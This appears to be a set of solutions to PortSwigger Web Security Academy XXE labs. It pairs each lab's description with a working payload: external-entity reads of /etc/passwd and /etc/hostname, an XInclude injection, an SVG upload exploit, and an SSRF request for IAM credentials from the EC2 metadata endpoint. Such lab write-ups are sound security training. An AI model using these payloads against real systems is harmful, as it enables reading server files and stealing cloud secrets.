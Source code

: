 # 1 [ Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

`This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.`

payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bla [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

# 2 [Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)

`This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.`

payload:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE bla [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

# 3 [ Lab: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

`This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.`

send: `productId=%26&storeId=1`

res: "**Entities** are not allowed for security reasons"

payload:

```html
productId=<xi:include
	xmlns:xi="http://www.w3.org/2001/XInclude"
	href="file:///etc/passwd"
	parse="text"
/>&storeId=1
```

# 4 [ Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

`This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.`

payload:

```html
<!DOCTYPE bla [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="110" height="110" version="1.0" id="hacker"><text font-size="9" y="25" x="25">&xxe;</text></svg>
```
